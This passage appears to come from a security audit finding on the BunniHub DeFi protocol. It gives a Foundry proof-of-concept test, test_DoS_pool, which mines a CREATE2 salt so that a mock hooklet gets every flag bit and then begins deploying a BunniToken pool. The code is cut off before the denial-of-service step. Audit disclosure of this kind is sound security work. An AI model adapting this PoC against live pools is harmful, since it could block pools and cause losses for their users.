 **Proof of concept**

Add the following code to the file `BunniHub.t.sol` and run `forge test --mt test_DoS_pool`.

```solidity
function test_DoS_pool() public {
    // Deployment data
    uint160 sqrtPriceX96 = TickMath.getSqrtPriceAtTick(0);
    Currency currency0 = Currency.wrap(address(token0));
    Currency currency1 = Currency.wrap(address(token1));
    bytes32 ldfParams = bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), ALPHA));
    bytes memory hookParams = abi.encodePacked(
        FEE_MIN,
        FEE_MAX,
        FEE_QUADRATIC_MULTIPLIER,
        FEE_TWAP_SECONDS_AGO,
        SURGE_FEE,
        SURGE_HALFLIFE,
        SURGE_AUTOSTART_TIME,
        VAULT_SURGE_THRESHOLD_0,
        VAULT_SURGE_THRESHOLD_1,
        REBALANCE_THRESHOLD,
        REBALANCE_MAX_SLIPPAGE,
        REBALANCE_TWAP_SECONDS_AGO,
        REBALANCE_ORDER_TTL,
        true,
        ORACLE_MIN_INTERVAL
    );
    bytes32 salt;
    unchecked {
        bytes memory creationCode = type(HookletMock).creationCode;
        for (uint256 offset; offset < 100000; offset++) {
            salt = bytes32(offset);
            address deployed = computeAddress(address(this), salt, creationCode);
            if (
                uint160(bytes20(deployed)) & HookletLib.ALL_FLAGS_MASK == HookletLib.ALL_FLAGS_MASK
                    && deployed.code.length == 0
            ) {
                break;
            }
        }
    }
    HookletMock hooklet = new HookletMock{salt: salt}();

    // Deploy BunniToken
    (, PoolKey memory key) = hub.deployBunniToken(
        IBunniHub.DeployBunniTokenParams({
            currency0: currency0,
            currency1: currency1,
            tickSpacing: TICK_SPACING,
            twapSecondsAgo: TWAP_SECONDS_AGO,
            liquidityDensityFunction: ldf,
            hooklet: hooklet,
            statefulLdf: true,
            ldfParams: ldfParams,
            hooks: bunniHook,
            hookParams: hookParams,
            vault0: ERC4626(address(vault0)),
            vault1: ERC4626(address(vault1)),
            minRawTokenRatio0: 0.08e6,
            targetRawTokenRatio0: 0.1e6,
            maxRawTokenRatio0: 0.12e6,
            minRawTokenRatio1: 0.08e6,
            targetRawTokenRatio1: 0.1e6,
```